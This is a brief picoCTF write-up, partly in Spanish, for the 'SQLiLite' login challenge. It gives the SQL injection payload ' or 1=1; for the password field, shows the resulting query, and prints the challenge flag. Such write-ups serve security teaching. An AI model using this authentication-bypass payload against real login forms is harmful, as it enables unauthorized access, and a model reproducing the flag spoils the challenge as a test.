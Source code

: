 # SQLiLite

#### Description
Can you login to this website?

## Hints
### None

## Solucion
```bash
username: admin
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'
```
Entramos con admin y la setencia ' or 1=1; en la contrasenia
una vez logeados solo inspeccionamos la bandera oculta.

Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}